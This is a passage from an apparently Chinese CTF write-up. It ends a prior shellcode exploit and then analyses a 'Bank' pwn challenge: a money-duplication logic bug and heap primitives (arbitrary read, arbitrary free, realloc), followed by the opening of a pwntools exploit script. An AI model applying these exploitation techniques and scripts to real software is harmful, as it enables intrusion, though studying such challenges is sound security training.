 ```python
  mov rsi, r8
  mov rdx, 0x40
  syscall
  
  """
 )
 p.send(code)

debugPID()
send_code()
debugPID()
irt()
```

# Bank

IDA就不上图了，浅浅分析下功能。

`deposit`中有当`money = balance`的时候不会`return`而是会执行`cash += money`，但是`reduce_money`中`money = balance`时会`return`而不扣除`banlance`中的钱。

![image-20220716112027434](https://cdn.novanoir.moe/img/image-20220716112027434.png)

![image-20220716112044433](https://cdn.novanoir.moe/img/image-20220716112044433.png)

所以可以利用`put`和`deposit`用来刷钱。

主要是`transfer`是漏洞点。`admin`可以用来任意读堆上的地址，`hacker`可以用来任意地址`free`，`ghost`可以`realloc` `ptr`这个堆，`guest`可以用来`malloc`一个`0x18`的堆并且写`0x10`，`abyss`可以把初始化中的`result`执行`*result=read_ui()`并触发`exit(0);`

先写好菜单，因为一开始没考虑完全所以就把`transfer`写的复杂了一点，其实分开写就好（）

```python
from typing import Union, AnyStr, Tuple, Literal
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')

sh = process(['./Bank'])
libc = ELF('./libc-2.31.so')

Money = Union[AnyStr, int, float]


def to_bytes(content: Money):
    return content if isinstance(content, bytes) else str(content).encode()


def menu(index: Literal[0, 2, 3, 4, 5, 6]):
    """

    :param index: 0: Quit, 2: Deposit, 3: Transfer, 4: Put, 5: Login, 6: Info
    :return:
    """
    choice = ['Quit', "", 'Deposit', "Transfer", "Put", "Login", "Info"]
    sh.recvuntil(b"Click: ")
    sh.sendline(choice[index].encode())


def login(card_number: AnyStr, password: AnyStr):
    menu(5)
    sh.sendlineafter(b"Card Numbers: ", to_bytes(card_number))
    sh.sendlineafter(b"Password: ", to_bytes(password))

```